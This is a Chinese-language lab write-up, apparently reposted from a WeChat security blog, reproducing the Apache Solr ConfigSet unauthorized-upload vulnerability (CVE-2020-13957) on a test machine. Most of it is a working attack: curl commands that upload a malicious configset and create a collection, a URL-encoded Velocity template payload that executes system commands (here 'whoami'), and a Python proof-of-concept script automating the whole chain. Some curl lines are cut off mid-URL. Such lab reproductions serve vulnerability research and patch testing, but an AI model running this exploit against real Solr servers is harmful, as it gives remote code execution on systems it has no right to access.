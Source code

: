 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/GRc9kNBvbyafTcN8bl6iAg)



声明：

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失, 均由使用者本人负责, 雷石安全实验室以及文章作者不为此承担任何责任。

1、相关简介



**1.1、漏洞概述**

CVE-2020-13957, 在特定的 Solr 版本中 ConfigSet API 存在未授权上传漏洞, 攻击者利用该漏洞可实现远程代码执行。

**1.2、漏洞利用链**

上传 configset——基于 configset 再次上传 configset(跳过身份检测), 利用新 configset 创造 collection——利用 solrVelocity 模板进行 RCE。

**1.3、影响版本**

Apache Solr 6.6.0 -6.6.5

Apache Solr 7.0.0 -7.7.3

Apache Solr 8.0.0 -8.6.2

2、漏洞复现


**2.1、漏洞环境**

**solr 下载地址****：**

http://archive.apache.org/dist/lucene/solr/

这次复现使用的是 solr8.0.0 版本

**靶机：**

win10,IP 地址：192.168.94.130

**攻击机：**

kali



![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0icgJnwz55vaCiatpsqriaW2GZ01FvRCNODcaFwa35ObXRoJxVF3aPzAljmwqB7mRyHn2YJdMzxtSHCw/640?wx_fmt=png)

**2.2、环境搭建**

首先, 在 win10 靶机中解压 solr-8.0.0.zip, 然后在 cmd 中切换到 bin 目录下执行以下命令：

```
solr.cmd start -c
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0icgJnwz55vaCiatpsqriaW2GZrJdtW0t94MNUTjtLFs9dWibHFnJA5xVZxvuyFicSluQOA9OicX4vlTJJw/640?wx_fmt=png)

如果是在 Linux 系统中搭建 solr 环境, 执行的命令为：

```
./solr start -e cloud -force
```

然后在 kali 的浏览器中打开 http://192.168.94.130:8983/,

solr 以 cloud 模式启动, 环境搭建成功.

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0icgJnwz55vaCiatpsqriaW2GZ2m9D7icor8zJtuo5lN5Y9mkCxCd7ic3u2Vfmx3cybhCbvd600bOtT5rA/640?wx_fmt=png)

**2.3、漏洞复现**

首先在 kali 中解压 solr-8.0.0.zip, 切换到 server/solr/configsets/_default/conf / 目录, 找到 solrconfig.xml 文件, 并将 velocity.params.resource.loader.enabled 的 false 修改为 true, 即：

```
>${velocity.params.resource.loader.enabled:true}
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0icgJnwz55vaCiatpsqriaW2GZKpmImY2sVHMsatPMOHv6bRvKxD51MCo63gM6SPAhenFxaIdKpw3ic5A/640?wx_fmt=png)

然后在

server/solr/configsets/_default/conf / 目录下打开终端, 执行以下命令将 conf 目录下所有文件打包成一个压缩文件 mytest.zip

```
zip -r - * > mytest.zip
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0icgJnwz55vaCiatpsqriaW2GZMYnKibSibyASmHJianTGSG7rBKetQkH5Axbnty05geGfpfbWWMTHBoichQ/640?wx_fmt=png)

由于 ConfigSet API 存在未授权上传, 可以通过以下命令将 mytest.zip 上传

```
curl -X POST --header "Content-Type:application/octet-stream" --data-binary @mytest.zip "http://192.168.94.130:8983/solr/admin/configs?action=UPLOAD&
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0icgJnwz55vaCiatpsqriaW2GZGJkIwJD4eYVxZLYI6bLOwzicC4bDhGgJpzcaXorwUqIGMoeGDNznMKA/640?wx_fmt=png)

根据 CREATE 得到的新 configset 创建恶意 collection

```
curl "http://192.168.94.130:8983/solr/admin/collections?action=CREATE&
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0icgJnwz55vaCiatpsqriaW2GZ0LQAbfqV6NoNtJibViciaXucT9VWBNFPMhl9V3rkp7v3icXMcVjbeowPZA/640?wx_fmt=png)

在 kali 的浏览器中输入以下地址, 即可利用已上传的 collection 进行远程命令执行, 这里执行的是 whoami

```
http://192.168.94.130:8983/solr/mytest2/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27whoami%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0icgJnwz55vaCiatpsqriaW2GZ5uaw8Z97a4pAmZFvKAiamkF3AQLKOK43woufAvajULXSQzr8ibRCibtgg/640?wx_fmt=png)

whoami 执行成功了, 漏洞复现成功

3、编写验证 POC

**3.1、重新搭建环境**

回到 win10 靶机执行以下的 solr 停止命令, 然后将 solr8.0 整个文件夹删除

```
solr stop -p 8983
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0icgJnwz55vaCiatpsqriaW2GZJoEKv1LNKicGrILSAKniaibcl8NARicdqa7nCmw3exzS2cJJAV6jPX2ibMg/640?wx_fmt=png)

重复 2.2 的环境搭建过程, 重新搭建漏洞环境, 重新在 win10 中启动 solr（这里试过如果不重新搭建漏洞环境, 再次验证漏洞时会出错）

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0icgJnwz55vaCiatpsqriaW2GZWRthoccaDdVZkc3pcOZAcV3jcweu2RjkMs8TEWciclGzJQXgWaJAlrQ/640?wx_fmt=png)

**3.2、执行编写好的 POC**

先编写一个能验证漏洞存在的简单 POC, 如下：

```python
#!/usr/bin/python3
#coding=utf-8


import requests


def testPoc(url):
try:
urls = url + '/solr/admin/configs?action=UPLOAD&name=mytest'
files = {
'file':('mytest.zip',open('mytest.zip','rb'),'application/octet-stream')
}
headers = {
'User-Agent':'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36'
}
response = requests.post(url=urls,headers=headers,files=files)
if response.status_code == 200:
print('上传成功')
else:
print('上传出错')
urls = url + '/solr/admin/collections?action=CREATE&name=mytest2&numShards=1&replicationFactor=1&wt=xml&collection.configName=mytest'
response = requests.get(url=urls,headers=headers)
if response.status_code == 200:
#print(response.text)
print('创建成功')
else:
print('创建失败')


urls = url + '/solr/mytest2/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27whoami%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end'
response = requests.get(url=urls,headers=headers)
if response.status_code == 200:
print(response.text)
print('----------------存在漏洞---------------')
else:
print('----------------不存在漏洞')


except Exception as e:
print(e)


url = 'http://192.168.94.130:8983'
testPoc(url)


print('程序执行结束')
```

将编写好的 poc.py 文件放到 kali 的 mytest.zip 文件所在目录下

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0icgJnwz55vaCiatpsqriaW2GZiaK7Pa5glbq18kfB4jyBCUBbdEyBkIIwlWl6cHv0QRvRY2xOplAhOAw/640?wx_fmt=png)

在当前目录打开终端, 执行编写好的 python 脚本验证漏洞即可：

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0icgJnwz55vaCiatpsqriaW2GZuPlIiaE30vibsxQ4usDaO9j64rahDHPjXffbiaR98tJ6GzUQMd44gEcXQ/640?wx_fmt=png)





4、总结



本次漏洞复现中遇到不少问题, 比如其他大佬的漏洞复现文章中, 有一个根据 UPLOAD 的配置, 创建一个新的配置的命令, 这里并没有执行也复现成功了。然后每次验证过漏洞存在时, 都需要重新搭建环境等等。。菜鸟继续加油哇～

